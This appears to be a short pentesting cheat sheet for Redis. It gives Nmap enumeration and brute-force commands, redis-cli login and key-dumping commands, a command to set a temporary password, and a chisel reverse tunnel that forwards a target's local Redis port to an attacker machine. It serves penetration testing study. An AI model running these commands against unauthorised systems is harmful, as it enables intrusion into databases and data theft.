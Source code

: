 ```yaml
---
title: Redis Pentesting
desc: In-Memory Database. Default port is 6379.
tags: [6379, Database, Nmap, NoSQL, Redis]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script redis-info -p 6379 <target-ip>
    nmap --script redis-brute -p 6379 <target-ip>
    ```

<br />

## Connect

```sh
redis-cli -h <target-ip> -p 6379

# with password
redis-cli -h <target-ip> -p 6379 -a password
```

<br />

## Commands

```sh
# Check credentials
> auth <username> <password>
> auth default <password>

# Set a password temporary until the service restarts.
> config set requirepass <password>

# Information on the Redis server
> info
> info keyspace

# All the keys
> keys *
# Get key value
> get <key_name>

# List all databases
> config get databases

# Select the database ('select <index>')
> select 0
> select 1
> select 12
```

<br />

## Port Forwarding Redis Server to Local Machine

In local machine,

```sh
chisel server -p 9001 --reverse
```

In target machine,

```sh
./chisel client <local-ip>:9001 R:6379:127.0.0.1:6379
```